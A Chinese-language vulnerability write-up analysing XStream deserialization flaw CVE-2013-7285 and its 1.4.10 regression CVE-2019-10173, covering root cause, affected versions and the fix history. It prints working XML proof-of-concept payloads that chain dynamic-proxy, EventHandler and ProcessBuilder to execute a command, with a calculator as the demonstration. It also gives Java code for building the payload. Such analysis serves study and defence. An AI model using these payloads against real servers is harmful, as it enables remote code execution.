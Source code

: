 # 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

![](pic/xstream-cve137285-1.png)。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。


这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`的实现类`EventHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。序列化`java.util.TreeSet`的对象，该对象又包含`java.lang.Comparable`这样的对象，当`Set`在服务器端实例化时，就会调用`Comparable`的`compareTo()`方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是往`TreeSet`的元素中添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的payload替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

![](pic/xstream-cve137285-2.png)


# 0x03 漏洞修复

因为`EventHandler`是由`ReflectionConverter`这个转换器来处理的。在`1.4.7-1.4.9`版本中，增加了对`java.beans.EventHandler`的限制。

![](pic/xstream-cve137285-3.png)

然而在`1.4.10`版本中，虽然增加了`setupDefaultSecurity`方式来设置默认的白名单，但是在`ReflectionConverter`中对`java.beans.EventHandler`限制去掉了。导致这个漏洞的PoC又能再`1.4.10`版本上执行成功。还有了个新的CVE编号：`CVE-2019-10173`。

![](pic/xstream-cve137285-4.png)




# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
